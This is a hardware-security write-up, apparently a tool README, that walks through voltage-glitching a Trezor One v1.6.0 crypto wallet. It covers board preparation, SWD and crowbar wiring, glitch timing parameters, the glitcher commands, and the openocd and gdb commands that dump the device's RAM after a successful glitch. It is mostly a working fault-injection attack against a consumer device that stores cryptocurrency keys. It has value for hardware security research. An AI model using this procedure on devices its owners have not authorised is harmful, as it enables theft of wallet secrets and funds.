










# Trezor One v1.6.0 glitching

This short summary will explain how to attack the Trezor One and how to get from RDP level 2 to RDP level 1 with access to RAM. With RAM access, other attacks can be performed, for example another voltage glitching attack to downgrade from RDP-1 to RDP-0.



## Preparations

Begin by covering delicate components with a metal foil and desolder the marked capacitors:




Solder a breakout pinheader to the Trezor One to get SWD access:



Glue a SMA connector to the backside of the device and connect the positive lead (middle pin) to the `V_CAP` line and the negative lead to `GND`:




Connect a ST-Link debug adapter to the SWD lines, and the reset line to `RESET`, as well as the power lines to the Pico Glitcher:

| Trezor pins   | ST-Link | Pico Glitcher |
|---------------|---------|---------------|
| RESET         |         | RESET output  |
| GND           | GND     | GND           |
| SWO           |         |               |
| SWCLK         | SWCLK   |               |
| SWDIO         | SWDIO   |               |
| VDD           | T_VCC   | VTARGET       |
| SMA connector |         | SMA crowbar   |

Connect the input `EXT1` to the crowbar glitch output `GLITCH`. This is necessary to trigger on the rising-edge of the voltage on the `V_CAP` line (green dupont cable in the following figure). Turn the potentiometer labeled `ATN` all the way to the right (clockwise). The `THR` potentiometer should be adjusted during the execution of the glitcher script so that no timeouts occur (probable `3/4` position, the arrow points to the left).





Connect channel 1 of an oscilloscope to the `VCAP` line via the SMA connector, channel 2 to the `VTARGET` output and the external trigger input of the oscilloscope to the `EXT1` hook.



DO NOT connect the Trezor one during glitching via USB to your computer.

## Voltage traces

Verify the startup sequence of the STM32F205 by measuring the voltage traces during startup:


The level of the voltage supply should slowly rise in comparison to the voltage on the `V_CAP` line. Furthermore, the voltage output on the `VCAP` line is delayed approximately 150ms after the device is powered on. Powering the device and measuring the voltage traces can be done with the command:

```bash
power-on --rpico /dev/<tty-device>
```

## Glitching

Now everything is set up, we can start glitching our device. For this, the script `stm32f2-boot-debugger.py` has been prepared. This script powers up the device, waits for the trigger signal on input `EXT1`, waits a given delay and emits a glitch of a certain length. Afterwards, it is tested if memory can be read from RAM.


Successful glitches should be found about 176us after the VCAP line comes up. Start by searching a wider parameter space and reduce the parameter space when the first positive events are observed. The glitch length is not critical, but in general shorter glitches are preferable.

```bash
python stm32f2-boot-debugger.py --rpico /dev/<tty-device> --length 100 500 --delay 175_600 176_700 --trigger-input ext1
```

Use the `analyzer` from `findus` to analyze the glitch parameters:

```bash
analyzer --directory databases --auto-update 60
```



In the default configuration, the script `stm32f2-boot-debugger.py` does not halt if a positive glitch is detected. This is helpful to search for good parameters. If you want to get live debug access to the RAM, you can use the `--halt` parameter and stop execution of the script. Use `--resume` to resume data collection to the previous database.

```bash
python stm32f2-boot-debugger.py --rpico /dev/<tty-device> --length 100 500 --delay 175_600 176_700 --trigger-input ext1 --resume --halt
```

When the script is stopped (when a successful glitch is detected), further instructions are printed to the terminal:

```bash
[+] Experiment 158	12914	(3)	176526	126	R	b'success: read zero'
[+] Now connect the Trezor One via USB with your computer and go to the Trezor Suite app.
    Wait for the Trezor One to connect. Do not abort this script!
    If the pin input on the Trezor comes up, execute the following command to dump the memory:
    $ openocd -f interface/stlink.cfg -c "transport select hla_swd" -f target/stm32f4x.cfg -c "init; reset run"
    Connect to openocd via gdb or telnet:
    $ telnet localhost 4444
    $ arm-none-eabi-gdb
    (gdb) target remote :3333
    (gdb) monitor reset halt
    (gdb) continue
    Or dump the RAM as is with the following command:
    $ openocd -f interface/stlink.cfg -c "transport select hla_swd" -f target/stm32f4x.cfg -c "init; dump_image ram.bin 0x20000000 0x1fffffff; exit"
```

In this state, you can either try to dump the RAM contents:

```bash
openocd -f interface/stlink.cfg -c "transport select hla_swd" -f target/stm32f4x.cfg -c "init; dump_image ram.bin 0x20000000 0x1fffffff; exit"
```

Or you can connect to the device via telnet or gdb. First initialize a debug connection with openocd:

```bash
openocd -f interface/stlink.cfg -c "transport select hla_swd" -f target/stm32f4x.cfg -c "init; reset run"
```

Then connect via telnet:
```bash
telnet localhost 4444
```

Or GDB:
```bash
arm-none-eabi-gdb
(gdb) target remote :3333
(gdb) monitor reset halt
(gdb) continue
```
